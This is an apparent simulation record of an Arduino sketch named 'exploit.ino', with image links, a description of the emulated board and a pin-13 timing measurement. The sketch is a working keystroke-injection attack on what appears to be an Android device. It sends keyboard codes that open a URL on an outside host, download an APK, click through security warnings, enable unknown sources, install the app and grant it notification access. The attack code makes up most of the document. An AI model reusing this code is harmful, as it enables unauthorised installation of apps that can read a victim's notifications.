
The sketch below on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Parts: output pins drawn as LEDs (lit = HIGH). Random numbers use the default seed unless the sketch sets one; what the sketch prints to the serial monitor is not drawn. At 78.9 s the program stops and its outputs stay as they are.

Above: at 0.3 s.
At 16.1 s:

Timing chart, 0 to 18.6 s (numbered marks = the images above):


The sketch:

exploit.ino
```cpp
#define KEY_DELAY 250

uint8_t buf[8] = {
  0 }; 	/* Keyboard report buffer */

void setup()
{
  Serial.begin(9600);
  randomSeed(analogRead(0));
  delay(200);

  pinMode(13, OUTPUT);
}

void loop()
{
  exploit();
  while (42) {}
}

void sendKey(int key)
{
  buf[2] = key;
  Serial.write(buf, 8);
  buf[0] = 0;
  buf[2] = 0;
  Serial.write(buf, 8);	// Release key
}

void sendKeyShift(int key)
{
  buf[2] = 0xE1;
  Serial.write(buf, 8);
  sendKey(key);

  buf[0] = 0;
  buf[2] = 0;
  Serial.write(buf, 8); // Release shift
}


void sendStr(char *string)
{
  for (int i=0; i < strlen(string); i++) {
    char c = string[i];
    if (c >= 97 && c <= 122) //a-z
      sendKey(string[i]-97 + 0x04); //in keyboard codes, a is 0x04
    if (c == ':')
      sendKeyShift(0x33);
    if (c == '/')
      sendKey(0x38);
    if (c == '.')
      sendKey(0x37);
    if (c == '?')
      sendKeyShift(0xE1);
  }
}

void down()
{
  delay(KEY_DELAY);
  sendKey(0x51);
}

void up()
{
  delay(KEY_DELAY);
  sendKey(0x52);
}

void left()
{
  delay(KEY_DELAY);
  sendKey(0x50);
}

void right()
{
  delay(KEY_DELAY);
  sendKey(0x4F);
}

void clic()
{
  delay(KEY_DELAY);
  sendKey(0x28);
}

void back()
{
  delay(KEY_DELAY);
  sendKey(0x29);
}

void goHome()
{
  for (int i=0; i < 30; i++) {
    back();
  }
  //buf[0]=226; //leftAlt
  //sendKey(41); //esc
  //sendKey(74);
}

void exploit()
{
  delay(700);
  sendKey(44); //space
  delay(200);
  sendKey(44);delay(200);
  sendKey(44);delay(200);
  sendKey(44);

  delay(500);

  goHome();
  //sendKey(3); //home (idk how though)

  delay(100);

  char url[18] = "vinnie.io/tc/";
  url[13] = random(26) + 97;
  url[14] = random(26) + 97;
  url[15] = random(26) + 97;
  url[16] = random(26) + 97;
  url[17] = 0x00;
//  Serial.println(url);
  sendStr(url);
  delay(1000);
  clic();

  delay(5000);

  digitalWrite(13, HIGH);

  //accept stupid security warning, LOL
  right();
  right();
  clic();
  delay(250);

  digitalWrite(13, LOW);

  //now the apk is downloading, while that's going let's enable developer options
  goHome();

  delay(250);

  sendStr("settings");
  delay(500);
  down();
  delay(100);
  down();
  delay(100);
  down();
  delay(100);
  down();
  delay(100);
  left();
  delay(100);
  clic();

  delay(250);

  //now we're in settings
  //just in case they already had settings open, let's go all the way to the top
  for (int i = 0; i < 20; i++) {
    up();
  }

  //go to security options
  for(int i = 0; i < 12; i++) {
    down();
  }
  clic();

  delay(100);

  //click on unknown sources
  for(int i = 0; i < 7; i++) {
    down();
  }
  clic();

  delay(50);


  //confirm security dialog, LOL
  right();
  right();
  clic();

  delay(100);

  goHome();

  //Unknown sources is now enabled. BOOM.vinnie.io/tc/wfol


  //give a little more time to download the apk just in case
  delay(1000);

  //open Downloads and click the apk file
  sendStr("downloads");
  delay(50);
  down();
  down();
  down();
  down();
  clic();

  delay(100);
  down();
  up();
  clic();
  right();
  right();
  clic();

  //now go back and enable notification access for our service
  goHome();

  delay(200);

  sendStr("settings");
  delay(250);
  down();
  down();
  down();
  down();
  left();
  clic();

  delay(250);

  //just in case they already had settings open, let's go all the way to the top
  for (int i = 0; i < 20; i++) {
    up();
  }

  //go to notification options
  for(int i = 0; i < 5; i++) {
    down();
  }
  clic();

  //select app access options
  for(int i = 0; i < 12; i++) {
    down();
  }
  clic();

  delay(100);

  //click on our app, which should be first
  clic();

  delay(50);

  //accept stupid security warning, LOL
  right();
  right();
  clic();
  delay(250);

  goHome();
}
```

Measured:
- by itself, pin 13: LOW → HIGH at 16.1 s, → LOW 1.0 s later
